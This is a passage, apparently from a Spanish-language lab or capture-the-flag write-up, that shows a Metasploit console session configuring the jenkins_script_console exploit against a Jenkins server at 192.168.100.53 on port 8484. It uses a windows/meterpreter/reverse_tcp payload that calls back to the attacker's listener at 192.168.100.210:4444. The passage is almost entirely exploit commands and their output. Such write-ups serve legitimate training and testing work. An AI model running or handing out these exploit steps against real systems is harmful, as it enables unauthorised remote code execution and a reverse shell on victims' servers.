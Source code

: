 ## Explotando la vulnerabilidad

```bash
msf6 auxiliary(scanner/winrm/winrm_login) > use 20
[*] No payload configured, defaulting to windows/meterpreter/reverse_tcp
msf6 exploit(multi/http/jenkins_script_console) > options

Module options (exploit/multi/http/jenkins_script_console):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   API_TOKEN                   no        The API token for the specified username
   PASSWORD                    no        The password for the specified username
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                      yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT      80               yes       The target port (TCP)
   SSL        false            no        Negotiate SSL/TLS for outgoing connections
   SSLCert                     no        Path to a custom SSL certificate (default is randomly generated)
   TARGETURI  /jenkins/        yes       The path to the Jenkins-CI application
   URIPATH                     no        The URI to use for this exploit (default is random)
   USERNAME                    no        The username to authenticate as
   VHOST                       no        HTTP server virtual host


   When CMDSTAGER::FLAVOR is one of auto,tftp,wget,curl,fetch,lwprequest,psh_invokewebrequest,ftp_http:

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   SRVHOST  0.0.0.0          yes       The local host or network interface to listen on. This must be an address on the local machine or 0.0.0.0 to listen on all addresses.
   SRVPORT  8080             yes       The local port to listen on.


Payload options (windows/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  process          yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     192.168.100.210  yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Windows



View the full module info with the info, or info -d command.

msf6 exploit(multi/http/jenkins_script_console) > set RHOSTS 192.168.100.53
RHOSTS => 192.168.100.53
msf6 exploit(multi/http/jenkins_script_console) > set TARGETURI /
TARGETURI => /
msf6 exploit(multi/http/jenkins_script_console) > set RPORT 8484
RPORT => 8484
```